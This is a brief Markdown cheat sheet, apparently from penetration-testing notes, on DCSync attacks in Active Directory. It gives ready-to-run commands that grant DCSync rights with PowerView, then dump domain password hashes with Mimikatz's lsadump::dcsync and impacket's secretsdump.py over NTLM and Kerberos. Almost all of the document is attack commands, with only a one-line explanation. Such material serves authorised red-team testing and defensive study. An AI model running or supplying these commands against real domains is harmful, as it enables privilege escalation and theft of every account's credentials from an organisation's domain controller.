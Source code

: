 ```yaml
---
legal-banner: true
---
```


### **INTRODUCTION**
Granting DCSync privileges allows a user to replicate domain data, which includes sensitive information such as password hashes. 

### **STEPS TO GRANT DCSYNC PRIVILEGES**

1. Grant DCSync Privileges using PowerView:   
	`Add-DomainObjectAcl -TargetIdentity "DC=SUB,DC=DOMAIN,DC=LOCAL" -PrincipalIdentity bfarmer -Rights DCSync`

2. Perform a DCSync Attack with Mimikatz:   
	`Invoke-Mimikatz -Command '"lsadump::dcsync /user:[DOMAINNAME]\[ANYDOMAINUSER]"'`

3. DCSync Using NTLM Authentication:   
	`secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP_ADRESS] -just-dc-ntlm`

4. Run secretsdump.py with Kerberos Authentication:   
	`secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm`